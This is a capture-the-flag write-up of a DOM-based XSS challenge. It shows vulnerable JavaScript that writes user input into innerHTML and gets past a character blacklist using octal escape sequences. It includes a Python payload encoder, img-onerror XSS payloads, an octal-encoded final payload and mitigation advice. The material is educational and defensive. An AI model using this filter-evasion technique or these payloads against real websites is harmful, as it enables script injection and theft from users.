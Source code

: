 # Cross-site Scripting (XSS) - DOM trought ($cmd) parameter using octal encoding (CWE-79)

## Description of the vulnerability

Cross-Site Scripting (XSS) is a type of vulnerability that allows an attacker to inject malicious code into a web page. This code is executed by the victim's web browser, allowing the attacker to steal sensitive information such as login credentials, manipulate the contents of the web page, or perform other unauthorized actions. In a DOM-based XSS attack, the attacker injects malicious code into the DOM (Document Object Model), which is then executed by the browser when the page is loaded or when a user interacts with the page in a certain way.

## Exploitation - steps to reproduce

> **source code**

In this situation, we have 2 inputs parameters : $username and $cmd

Let's take a look at the javascript source code :

```js
<script>

//Cass to create a new player:
class Player {
  constructor(status, name, spawn, grade, quotes) { 
    this.whoami = name;
    this.groups = grade;
    this.pwd = spawn;
    this.ls = quotes;
    this.connection = status;
  }
};

//Create new players: 'butters' and 'cartman':
const butters = new Player( 'online', 'Butters', '~/School', '4th Grade', Array('Hey Fellas!', 'Oh boy!', 'A little chaos...') );  
const cartman = new Player( 'online', 'Cartman', '~/School', '4th Grade', Array('Kewl', 'WassUP!!') );

//Add players to the `users` object:
let users = {};
let addUser = Object.assign(users, { butters, cartman });

//Cartman to rescue!!
var username = '$username';
var cmd = '$cmd';

/* [Help Guide]
* (1) => Check `user` if it's valid, if not valid (||) user = 'butters'. 
* (2) => Check if the `command` exists, if not valid (||) command = 'not found'
*/
var user = users[username] || users['butters']//(1)
var command = user[cmd] || 'Command \''+cmd+'\' not found.';//(2)

//Output:
document.getElementById('inpt').innerHTML = cmd+'<br>'+command;
document.getElementById('user').innerText = user.whoami+'@vr';

</script>
```

The code create 2 object Player and initialize them with differents attributs.
Then, each attributs can be accessed using the $username parameter to select a player, and $cmd paramater to select wich attribut to print. If the username specified or the command specified is not found, the user fallback to 'butters' and the command printed is 'not found'.

What is interesting here is this line : 
```js
document.getElementById('inpt').innerHTML = cmd+'<br>'+command;
```
This line use the `.innerHTML` tag, who's property is used for DOM manipulation. I can be used to examine/modify the content of the HTML page, meaning we can use it to inject some javascript code for Cross-site scripting.

> **Blacklisted characters**

All the following characters are blacklisted, and cannot be injected :
```"'`<>```
We cannot also use the escape characters ```\x \u``` used for hexadecimal and unicode character injection inside a string.
It look like we cannot inject any character useful to inject javascript code.

> **The flaw**

Actually, even if ```\x \u``` are blacklisted, we can still inject some special characters like `<>` or `'`, using another escape sequence character : the octal esacque sequence character. We can use it juste like the Unicode or Hexadecimal one to inject any ASCII character using it's octal code. 

For exemple the string ```Hello, world``` would be ```\110\145\154\154\157\54\40\167\157\162\154\144``` in octal numbers. 

> **Testing the injection**

Using a simple python code, we can translate any payload easily to octal code :
```py
import re
payload = input("Enter payload : ")
char_array = [oct(ord(c)) for c in payload]
pattern = r"[' ,\[\]]+"
result = re.sub(pattern,'',str(char_array))
print("Formated payload :\n",result.replace('0o','\\'))
```
This code take for input your payload, convert it to octal code for each character and then print all the codes in the good format for our injection/ We can try to use with a common XSS payload :
```js
<img src='x' onerror='alert("XSS")'>
```

![](img/ywh-1.png)

Now let's try try it on the website : 

![](img/ywh-2.png)

The octal encoding method is working, we can successfully execute javascript code !

## PoC

> **Completing the challenge**

Now that we have a working XSS, we can finish this challenge, who's main goal is to change the status of the player "Butters" from "online" to "offline".

This can be done using the following XSS payload :
```js
<img src='x' onerror='users.butters.connection = "offline";'>
```
and in octal code :
```
\74\151\155\147\40\163\162\143\75\47\170\47\40\157\156\145\162\162\157\162\75\47\165\163\145\162\163\56\142\165\164\164\145\162\163\56\143\157\156\156\145\143\164\151\157\156\40\75\40\42\157\146\146\154\151\156\145\42\73\47\76
```

We can complete the challenge by login in as Cartman and modifying Butters connection status :

![](img/ywh-3.png)

## How to prevent :

* Validation of user input before using it in `.innerHTML`
* Better sanitization of users input, like adding octal encoding to the blacklist
* Use of content security policy to specify which sources are allowed to execute scripts

More [here](https://portswigger.net/web-security/cross-site-scripting/preventing)...

## Conclusion

As always , thanks for the dojo, it's still really fun to play with

#### #YesWeRHackers

## Sources

https://portswigger.net/web-security/cross-site-scripting/preventing
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
https://dev.to/caffiendkitten/innerhtml-cross-site-scripting-agc



